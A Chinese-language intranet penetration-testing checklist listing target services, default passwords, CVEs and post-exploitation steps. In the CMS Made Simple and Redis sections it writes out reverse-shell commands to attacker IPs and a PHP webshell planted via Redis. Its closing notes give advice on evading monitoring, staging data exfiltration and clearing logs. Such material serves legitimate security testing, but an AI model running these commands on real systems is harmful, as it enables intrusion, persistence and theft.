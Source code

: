 常规思路
========================================

内网安全检查
----------------------------------------

攻击思路
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 攻击外网服务器，获取外网服务器的权限，接着利用入侵成功的外网服务器作为跳板，攻击内网其他服务器，最后获得敏感数据，并将数据传递到攻击者，看情况安装长期后门，实现长期控制和获得敏感数据的方式；
- 攻击办公网的系统、办公网电脑、办公网无线等方式，一般是采用社工，实现控制办公电脑，再用获得的办公网数据，可能是内网的各种登录账号和密码，再获取办公网或者生产网的有用数据。

敏感资料/数据/信息
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 高管/系统管理员/财务/人事/业务人员的个人电脑
- 文件服务器/共享服务器
- 邮件服务器
- OA服务器
- 数据库服务器

攻击过程
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 信息收集
- 漏洞验证/漏洞攻击
- 后渗透
- 日志清理

信息收集
----------------------------------------
- 主机发现
- 端口扫描
- 漏洞扫描
- 识别内网环境
	+ 办公网
	+ 生产网

漏洞验证/漏洞攻击
----------------------------------------

Tomcat
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ 端口号：8080
+ 攻击方法
	- 默认口令、弱口令，爆破，tomcat5 默认有两个角色：tomcat和role1。其中账号both、tomcat、role1的默认密码都是tomcat。弱口令一般存在5以下的版本中。
	- 在管理后台部署 war 后门文件
	- 远程代码执行漏洞
+ 常见漏洞
	- CVE-2016-8735
	- CVE-2017-12615

Jboss
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ 端口：8080
+ 攻击方法
	- 弱口令，爆破
	- 管理后台部署 war 后门
	- 反序列化
	- 远程代码执行
+ 常见漏洞
	- CVE-2015-7501
	- CVE-2017-7504
	- CVE-2017-12149

WebLogic
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ 端口：7001，7002
+ 攻击方法
	+ 弱口令、爆破，弱密码一般为weblogic/Oracle@123 or weblogic
	+ 管理后台部署 war 后门
	+ SSRF
	+ 反序列化漏洞
	+ weblogic_uac
+ 常见漏洞
	- CVE-2019-2725
	- CVE-2019-2729
	- CVE-2018-3191
	- CVE-2018-2628
	- CVE-2018-2893
	- CVE-2018-2894
	- CVE-2017-3506
	- CVE-2017-10271
	- CVE-2017-3248
	- CVE-2016-0638
	- CVE-2016-3510
	- CVE-2015-4852
	- CVE-2014-4210

WebSphere
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ 端口：默认端口：908*；第一个应用就是9080，第二个就是9081；控制台9090
+ 攻击方法
	+ 控制台登录爆破
	+ 很多内网 websphere 的控制台存在弱口令 / 默认口令，可以使用 admin/admin 以及 webshpere/webshpere 这种口令登录。 通过该口令登录控制台后，可以部署 war 包，从而获取到 WEBSHELL 。
	+ 反序列化
	+ 任意文件泄露

Struts2
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ 可利用漏洞
	+ S2-048
	+ S2-052
	+ S2-053
	+ S2-057
	+ S2-046 CVE-2017-5638 Struts 2.3.5-2.3.31,Struts 2.5-2.5.10
	+ S2-045 CVE-2017-5638 Struts 2.3.5-2.3.31,Struts 2.5-2.5.10
	+ S2-037 CVE-2016-4438 Struts 2.3.20-2.3.28.1
	+ S2-032 CVE-2016-3081 Struts 2.3.18-2.3.28
	+ S2-020 CVE-2014-0094 Struts 2.0.0-2.3.16
	+ S2-019 CVE-2013-4316 Struts 2.0.0-2.3.15.1
	+ S2-016 CVE-2013-2251 Struts 2.0.0-2.3.15
	+ S2-013 CVE-2013-1966 Struts 2.0.0-2.3.1
	+ S2-009 CVE-2011-3923 Struts 2.0.0-2.3.1.1
	+ S2-005 CVE-2010-1870 Struts 2.0.0-2.1.8.1
+ 扫描工具
	+ https://github.com/x51/STS2G/releases
	+ ``ST2SG --mode scan --url http://xxx.com/index.action``

Spring 框架
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ 可利用漏洞
	+ CVE-2010-1622
	+ CVE-2018-1274
	+ CVE-2018-1270
	+ CVE-2018-1273
	+ 反序列化
	+ 目录穿越

IIS：Windows 的 WWW 服务器
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ https://masterxsec.github.io/2017/06/07/IIS-write-%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8/
+ http://www.freebuf.com/articles/4908.html
+ https://www.anquanke.com/post/id/85811
+ IIS，开启了 WebDAV，可以直接详服务器 PUT 文件
+ 短文件名枚举漏洞
+ 远程代码执行
+ 提权漏洞
+ 解析漏洞

Apache
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ 解析漏洞
+ 目录遍历

Apache Dubbo
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ CVE-2020-1948 反序列化漏洞利用
+ https://blog.csdn.net/weixin_46137328/article/details/107194560

Nginx
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ https://www.seebug.org/vuldb/ssvid-92538
+ 解析漏洞
+ 目录遍历
+ CVE-2016-1247：需要获取主机操作权限，攻击者可通过软链接任意文件来替换日志文件，从而实现提权以获取服务器的root权限

lighttpd
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ 目录遍历

宝塔
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
通过一个交互界面就能完成服务器的维护工作，比如更新系统，添加网站，修改设置等等。可以搭建任何开源建站程序，包括主流的WordPress，帝国CMS,织梦程序等，也可以搭建Java开源的建站程序，例如OneBlog程序。

Gitlab
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- GitLab是一个利用 Ruby on Rails 开发的开源应用程序，实现一个自托管的项目仓库，可通过Web界面进行访问公开的或者私人项目。
- 可利用漏洞
	+ 任意文件读取漏洞
	+ 任意用户 token 泄露漏洞
	+ 命令执行漏洞
	
Jenkins
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- Jenkins是一种跨平台的持续集成和交付的应用软件，它便于不断稳定地交付新的软件版本，并提高你的工作效率。这款开发运维工具还让开发人员更容易把项目的变化整合起来，并使用大量的测试和部署技术。
- 可利用漏洞：
	+ 远程代码执行漏洞
	+ 反序列化漏洞
	+ 未授权访问漏洞
	+ 登录入口爆破
- 常见漏洞
	+ CVE-2018-1999002

Puppet
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- Puppet Enterprise专门管理基础设施即代码(IAC)，在这种类型的IT基础设施配置过程中，系统用代码而不是脚本流程来自动构建、管理和配置。由于它是代码，整个过程易于重复。Puppet有助于更容易控制版本、自动化测试和持续交付，可以更快速地响应问题或错误。
- 可利用漏洞，很少公开的POC
- 反序列化
- 远程命令执行

Ansible
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- Ansible是一种配置和管理工具，面向客户端的软件部署和配置，支持Unix、Linux和Windows。它使 用JSON和YAML，而不是IAC，根本不需要节点代理就可以安装。它可以通过OpenStack在内部系统上使用，也可以在亚马逊EC2上使用。
- 可利用漏洞
	+ 远程代码执行
	
Nagios
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- Nagios是一款开源的电脑系统和网络监视工具，能有效监控Windows、Linux和Unix的主机状态，交换机路由器等网络设置，打印机等。在系统或服务状态异常时发出邮件或短信报警第一时间通知网站运维人员，在状态恢复后发出正常的邮件或短信通知。
- 可利用漏洞
	+ 代码执行
	+ SQLi
	
Zabbix
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- Zabbix 是一款强大的开源分布式监控系统, 能够将SNMP、JMX、Zabbix Agent提供的数据通过WEB GUI的方式进行展示。
- 可利用漏洞
	+ 远程代码执行
	+ SQLi
	+ shell 命令注入
	+ 认证绕过
	+ 默认账户与密码，默认口令 admin/zabbix，或者是guest/空
	
Cacit
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- Cacti是一套基于PHP,MySQL,SNMP及RRDTool开发的网络流量监测图形分析工具。
- 可利用漏洞
	+ 任意代码执行
	+ SQLi
	+ 登录爆破
	+ 默认密码admin/admin
	
Splunk
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- Splunk Enterprise 可以从任何来源监控和分析机器数据，以提供操作智能，从而优化您的 IT、安全和业务绩效。Splunk Enterprise 具有直观的分析功能、机器学习、打包应用程序和开放式 API，是一个灵活的平台，可从重点用例扩展到企业范围的分析主干。
- 可利用漏洞
	+ 信息泄露
	+ 命令注入
	+ 服务端请求伪造

邮件系统
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
一部分是使用腾讯企业邮箱、阿里企业邮箱的，很难有可利用的漏洞，另外一种是能独立部署的邮件系统，政企常用的邮箱应用：

- Coremail
- 亿邮
- 35互联
- TurboMail
- Exchange
- IBM Lotus


wordpress
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ 扫描插件和主题是否包含漏洞
+ 拿到wp网站登录用户名和密码
	- 可通过上传主题文件来getshell，首先先去官网下载一个主题压缩包，之后将反弹shell的php代码写入shell.php中，然后将其放入压缩包一起上传
	- shell目录：/wp-content/themes/[主题名]/[shell文件名]
	- 通过主题编辑修改php页面
+ xmlrpc.php
	- 查看支持的方案
	
	::
	
		POST /xmlrpc.php HTTP/1.1
		Host: 192.168.100.106
		User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1)
		Content-Type: text/xml;charset=UTF-8
		Content-Length: 128

		<?xml version="1.0" encoding="iso-8859-1"?><methodCall><methodName>system.listMethods</methodName><params></params></methodCall>

CMS Made Simple
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ 数据库更改密码方法
	- 前提：登录数据库
	- ``update cms_users set password = (select md5(CONCAT(IFNULL((SELECT sitepref_value FROM cms_siteprefs WHERE sitepref_name='sitemask'),''),'admin'))) where username = 'admin';``
+ 反弹shell
	- 前提：登录系统
	- Extensions/User Defined Tags
		::
			
			vps开启监听
			修改任何一个tag的code，点击apply，点击run
			echo system("bash -c 'bash -i >& /dev/tcp/192.168.100.108/4444 0>&1'");

tiki
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ CVE-2020-15906
	- 利用条件：tiki<21.2
	- 免密码登录
		::
		
			https://www.exploit-db.com/exploits/48927
			python 48927.py 192.168.100.103
			打开burpsuite，开启拦截
			浏览器登录admin，输入密码
			bp去掉密码，forward
			
	- 命令执行
		::
		
			https://srcincite.io/pocs/cve-2021-26119.py.txt
			python cve-2021-26119.py 192.168.100.103 /tiki/ whoami

MySQL数据库
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 默认端口：3306
- 攻击方法
	+ 爆破：弱口令
	+ 身份认证漏洞：CVE-2012-2122
	+ 拒绝服务攻击
	+ Phpmyadmin万能密码绕过：用户名：‘localhost’@’@” 密码任意
	+ 提权
	
MSSQL数据库
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 默认端口：1433（Server 数据库服务）、1434（Monitor 数据库监控）
- 攻击方法：
	+ 爆破：弱口令/使用系统用户
	+ 注入
	
Oracle数据库
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 默认端口：1521（数据库端口）、1158（Oracle EMCTL端口）、8080（Oracle XDB数据库）、210（Oracle XDB FTP服务）
- 攻击方法：
	+ 爆破：弱口令
	+ 注入攻击
	+ 漏洞攻击

PostgreSQL数据库
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 默认端口：5432
- 攻击方法
	+ 爆破：弱口令：postgres postgres
	+ 缓冲区溢出：CVE-2014-2669
	
MongoDB数据库
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 默认端口：27017
- 攻击方法
	+ 爆破：弱口令
	+ 未授权访问；github有攻击代码；
	
Redis数据库
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 默认端口：6379
- 攻击方法
	+ 爆破：弱口令
	+ 未授权访问+配合ssh key提权
- 工具和命令
	+ 连接：``redis-cli -h 172.16.143.1 -p 6379``
	+ 查看所有的keys：``keys *``
	+ 写入文件
		::
		
			CONFIG GET dir
			CONFIG SET dir /usr/share/apache/htdocs/
			SET shell "<?php echo system($_REQUEST[cmd])?>"
			CONFIG SET dbfilename shell.php
			save
	+ 反弹shell
		::
		
			C2服务器监听：nc -lvnp 7999
			
			注意：先查看一下原来的dir，dbfilename是什么，进行备份。
			redis服务器执行以下redis命令：
			set xx "\n* * * * * bash -i >& /dev/tcp/192.168.32.144/7999 0>&1\n"
			config set dir /var/spool/cron/
			config set dbfilename root
			save

SysBase数据库
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 默认端口：服务端口5000；监听端口4100；备份端口：4200
- 攻击方法：
	+ 爆破：弱口令
	+ 命令注入
	
DB2 数据库
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 默认端口：5000
- 攻击方法
	+ 安全限制绕过：成功后可执行未授权操作（CVE-2015-1922）

FTP 服务
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
FTP服务我分为两种情况，第一种是使用系统软件来配置，比如IIS中的FTP文件共享或Linux中的默认服务软件；第二种是通过第三方软件来配置，比如Serv-U还有一些网上写的简易ftp服务器等；

- 默认端口：20（数据端口）；21（控制端口）；69（tftp小型文件传输协议）
- 攻击方式
	+ 爆破：ftp的爆破工具有很多，这里我推荐owasp的Bruter 以及msf中ftp爆破模块；
	+ 匿名访问：用户名：anonymous 密码：为空或任意邮箱
	+ 嗅探：ftp使用明文传输技术（但是嗅探给予局域网并需要欺骗或监听网关）
	+ 后门 vsftp
	+ 远程溢出
	+ 跳转攻击

NFS 服务
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
NFS（Network File System）即网络文件系统，是FreeBSD支持的文件系统中的一种，它允许网络中的计算机之间通过TCP/IP网络共享资源。在NFS的应用中，本地NFS的客户端应用可以透明地读写位于远端NFS服务器上的文件，就像访问本地文件一样。如今NFS具备了防止被利用导出文件夹的功能，但遗留系统中的NFS服务配置不当，则仍可能遭到恶意攻击者的利用。

- 攻击方法
	+ 未授权访问

Samba服务
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Samba是linux和unix系统上实现SMB/CIFS协议的一个免费软件，由服务器和客户端程序构成。而SMB是局域网支持共享文件和打印机的一种通信协议，为局域网内不同计算机之间提供文件及打印机等资源的共享服务。

- 攻击方法
	+ 远程代码执行
	+ 弱口令
	+ 未授权访问（public）

SSH服务
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
SSH是协议，通常使用OpenSSH软件实现协议应用。

- 端口：22
- 攻击方法
	+ 爆破
	+ 后门
	+ 漏洞：28退格漏洞、OpenSSL漏洞
- 常见漏洞
	+ CVE-2018-15473
		- OpenSSH 7.7前存在一个用户名枚举漏洞，通过该漏洞，攻击者可以判断某个用户名是否存在于目标主机。
		- auxiliary(scanner/ssh/ssh_enumusers
		- https://github.com/Rhynorater/CVE-2018-15473-Exploit.git
		- ``python sshUsernameEnumExploit.py --port 22 --userList /home/kali/Downloads/rockyou.txt 192.168.100.103``
- 命令
	+ 公钥登录: ``ssh -i id_rsa root@142.93.198.56``


Telnet服务
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Telnet协议是TCP/IP协议族中的一员，是Internet远程登陆服务的标准协议和主要方式。

- 默认端口：21
- 攻击方法
	+ 爆破
	+ 嗅探

Windows远程连接
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 默认端口：3389
- 攻击方法
	+ 爆破
	+ Shift粘滞键后门：5次shift后门
	+ 利用ms12-020攻击3389端口
	
VNC服务
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
VNC（Virtual Network Computing），为一种使用RFB协议的显示屏画面分享及远程操作软件。此软件借由网络，可发送键盘与鼠标的动作及即时的显示屏画面。

- 默认端口：5900+桌面ID（5901；5902）
- 攻击方式：
	+ 爆破：弱口令
	+ 认证口令绕过：
	+ 拒绝服务攻击：（CVE-2015-5239）
	+ 权限提升：（CVE-2013-6886）
	
SMTP协议
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
smtp：邮件协议，在linux中默认开启这个服务，可以向对方发送钓鱼邮件！

- 默认端口：25（smtp）、465（smtps）
- 攻击方式
	+ 爆破：弱口令
	+ 未授权访问
	
POP3协议
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 默认端口：109（POP2）、110（POP3）、995（POP3S）
- 攻击方式：
	+ 爆破；弱口令
	+ 未授权访问

DNS服务
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 默认端口：53
- 攻击方式：
	+ 区域传输漏洞
	
IMAP协议
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 默认端口：143（imap）、993（imaps）
- 攻击方式：
	+ 爆破：弱口令
	+ 配置不当
	
SNMP协议
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 默认端口：161
- 攻击方式
	+ 爆破：弱口令
	
DHCP服务
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 默认端口：67&68、546（DHCP Failover做双机热备的）
- 攻击方式：
	+ DHCP劫持

VMware
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
使用 VMware vCloud 可将现有数据中心内的虚拟基础架构资源池化，并将其作为基于目录的服务交付。通过与云计算基础架构的最佳平台 VMware vSphere 配合使用，VMware vCloud Director 可为客户提供构建安全的私有云，从而改变 IT 部门交付和管理基础架构服务以及用户访问和使用这些服务的方式。

一般组织中很多独立安装的 Esxi 形式的私有云，或独立部署的虚拟化系统。

- 漏洞
	+ 主机逃逸
	+ CVE-2017-5638
	
OpenStack
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
OpenStack是基础设施即服务（IaaS）软件，让任何人都可以自行创建和提供云计算服务。此外，OpenStack也用作创建防火墙内的“私有云”（Private Cloud），提供机构或企业内各部门共享资源。

- 漏洞，有漏洞但是POC基本没有。检查时候可以参考安全的配置实践。
	+ 权限绕过漏洞
	+ 信息泄露
	+ 代码执行漏洞
	
Docker
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Docker是一个开放源代码软件项目，让应用程序布署在软件容器下的工作可以自动化进行，借此在Linux操作系统上，提供一个额外的软件抽象层，以及操作系统层虚拟化的自动管理机制[1]。

Docker利用Linux核心中的资源分脱机制，例如cgroups，以及Linux核心名字空间（name space），来创建独立的软件容器（containers）。这可以在单一Linux实体下运作，避免引导一个虚拟机造成的额外负担。

Linux核心对名字空间的支持完全隔离了工作环境中应用程序的视野，包括进程树、网络、用户ID与挂载文件系统，而核心的cgroup提供资源隔离，包括CPU、内存、block I/O与网络。

从0.9版本起，Dockers在使用抽象虚拟是经由libvirt的LXC与systemd - nspawn提供界面的基础上，开始包括libcontainer函数库做为以自己的方式开始直接使用由Linux核心提供的虚拟化的设施。

- 安全问题（很少有漏洞的POC，安全检查也是基于最佳实践和官方安全建议进行）
	+ CVE-2015-3630 1.6.0 Docker Libcontainer 安全绕过漏洞
	+ CVE-2015-3627 1.6.1 Libcontainer和Docker Engine 权限许可和访问控制漏洞
	+ CVE-2015-3630 1.6.1 Docker Engine 安全绕过漏洞
	+ CVE-2014-9358 1.3.3 Docker 目录遍历漏洞
	+ CVE-2014-9357 1.3.2 Docker 权限许可和访问控制漏洞
	+ CVE-2014-6408 1.3.1 Docker 权限许可和访问控制漏洞
	+ CVE-2014-5277 1.3.0 Docker和docker-py 代码注入漏洞
	+ 内核漏洞（Kernel exploits） 容器是基于内核的虚拟化，主机（host）和主机上的所有容器共享一套内核。如果某个容器的操作造成了内核崩溃，那么反过来整台机器上的容器都会受到影响。
	+ 拒绝服务攻击（Denial-of-service attacks） 所有的容器都共享了内核资源，如果一个容器独占了某一个资源（内存、CPU、各种ID），可能会造成其他容器因为资源匮乏无法工作（形成DoS攻击）。
	+ 容器突破（Container breakouts） Linux的namespace机制是容器的核心之一，它允许容器内部拥有一个PID=1的进程而在容器外部这个进程号又是不一样的（比如1234）。现在问题在于如果一个PID=1的进程突破了namespace的限制，那么他将会在主机上获得root权限。
	+ 有毒镜像（Poisoned images） 主要是考虑到镜像本身的安全性，没太多好说的。

Elsaticsearch
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Elasticsearch 是一个分布式的搜索和分析引擎，可以用于全文检索、结构化检索和分析，并能将这三者结合起来。Elasticsearch 基于 Lucene 开发，现在是使用最广的开源搜索引擎之一，Wikipedia、Stack Overflow、GitHub 等都基于 Elasticsearch 来构建他们的搜索引擎。

- 默认端口：9200、9300
- 攻击方法：
	+ 未授权访问；
	+ 远程命令执行；
	+ 文件遍历；
	+ 低版本webshell植入；
	
hadoop
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Hadoop是一个开源的框架，可编写和运行分布式应用处理大规模数据，是专为离线和大规模数据分析而设计的，并不适合那种对几个记录随机读写的在线事务处理模式。

Hadoop=HDFS（文件系统，数据存储技术相关）+ Mapreduce（数据处理），Hadoop的数据来源可以是任何形式，在处理半结构化和非结构化数据上与关系型数据库相比有更好的性能，具有更灵活的处理能力，不管任何数据形式最终会转化为key/value，key/value是基本数据单元。

用函数式变成Mapreduce代替SQL，SQL是查询语句，而Mapreduce则是使用脚本和代码，而对于适用于关系型数据库，习惯SQL的Hadoop有开源工具hive代替。 Hadoop就是一个分布式计算的解决方案。

Hive
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Hive是Hadoop家族中一款数据仓库产品，Hive最大的特点就是提供了类SQL的语法，封装了底层的MapReduce过程，让有SQL基础的业务人员，也可以直接利用Hadoop进行大数据的操作。

Sqoop
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Apache Sqoop（SQL-to-Hadoop） 项目旨在协助 RDBMS 与 Hadoop 之间进行高效的大数据交流。

用户可以在 Sqoop 的帮助下，轻松地把关系型数据库的数据导入到 Hadoop 与其相关的系统 (如HBase和Hive)中；同时也可以把数据从 Hadoop 系统里抽取并导出到关系型数据库里。除了这些主要的功能外，Sqoop 也提供了一些诸如查看数据库表等实用的小工具。

HBase
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
HBase建立在HDFS之上，提供高可靠性、高性能、列存储、可伸缩、实时读写的数据库系统。

它介于NoSQL和RDBMS之间，仅能通过行键(row key)和行键序列来检索数据，仅支持单行事务(可通过Hive支持来实现多表联合等复杂操作)。主要用来存储非结构化和半结构化的松散数据。

与Hadoop一样，HBase目标主要依靠横向扩展，通过不断增加廉价的商用服务器，来增加计算和存储能力。

Spark
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Spark是UC Berkeley AMP lab所开源的类Hadoop MapReduce的通用的并行计算框架，Spark基于map reduce算法实现的分布式计算，拥有Hadoop MapReduce所具有的优点；但不同于MapReduce的是Job中间输出和结果可以保存在内存中，从而不再需要读写HDFS。


后渗透
----------------------------------------

提权
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- https://github.com/SecWiki/windows-kernel-exploits
- https://github.com/SecWiki/linux-kernel-exploits

域攻击
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 确定目标系统和应用程序
- 识别潜在的漏洞
- 利用漏洞获得初始访问
- 提升权限
- 定位域管理进程或者获取远程系统上的本地身份验证令牌
- 通过本地管理员的密码Hash，破解密码，使用mimikatz工具抓取密码验证运行在远程系统上的域名管理进程
- 迁移域管理进程
- 创建一个域管理员

建立后门/端口转发
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- LCX：windows下面的端口转发软件。
- sockscap：主要针对windows平台的端口转发和代理转发。
- proxifier：跨平台的端口转发和代理工具，适用windows，linux，
- Macos平台，代理转发利器
- Rsscoks：＊nix平台下的端口转发和代理工具，配合proxychains好用到不行。
- Proxychains：＊nix平台下老牌的socks代理工具，一般的系统都会自带，谁用谁知道。
- ssh proxy：通过ssh做端口代理和转发，一般＊nix系统都自带。
- netcat：socat，hping，在很多情况下可以做端口转发和数据代理转发。
- metasploit：metasploit的后渗透模块中有不少代理模块和端口转发模块

传输文件
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

制作后门/木马程序
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

日志清理
----------------------------------------

注意事项
----------------------------------------
- 检查内网监控防范系统
- 谨慎使用ARP软件和大面积扫描软件
- 使用目标网络中无空闲机器，作为打包对象
- 使用内网大流量机器作为传输对象，如wsus服务器、视频会议系统
- 使用临时机器打包、数据传输，不要使用已控机器，可利用wmi脚本或wmic远程操作
- 禁止使用psexec.exe
- 打包时避开用户工作时间
- 控制卷包大小<100M
- 选择用户常用压缩软件
- 错峰下载数据
- 控制传输流量
- 清除所有操作日志
- 登录主机前先看看管理员是否在
